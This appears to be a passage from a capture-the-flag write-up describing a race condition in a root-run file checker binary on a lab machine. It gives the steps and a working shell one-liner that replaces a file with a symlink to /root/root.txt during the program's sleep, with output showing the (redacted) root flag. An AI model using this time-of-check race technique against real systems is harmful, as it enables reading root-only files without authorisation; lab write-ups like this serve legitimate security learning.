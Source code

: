 There's a race condition in the file because it sleeps for 1 second before reading the file content, so we can exploit this by:

1. Creating a dummy file 'blah' with some junk it
2. Launch /usr/bin/checker against 'blah', then sleep for 0.5 seconds
3. Delete 'blah' and replace it with a symlink to /root/root.txt
4. After the programs comes out of the sleep() function, it'll read root.txt because it's running as root

```
smasher@smasher:~$ rm blah;echo 123 > blah;(/usr/bin/checker blah &);sleep 0.5;rm blah;ln -s /root/root.txt blah
rm: cannot remove 'blah': No such file or directory
[+] Welcome to file UID checker 0.1 by dzonerzy

smasher@smasher:~$ File UID: 1001

Data:
077af<redacted>
```

Flag: `077af<redacted>`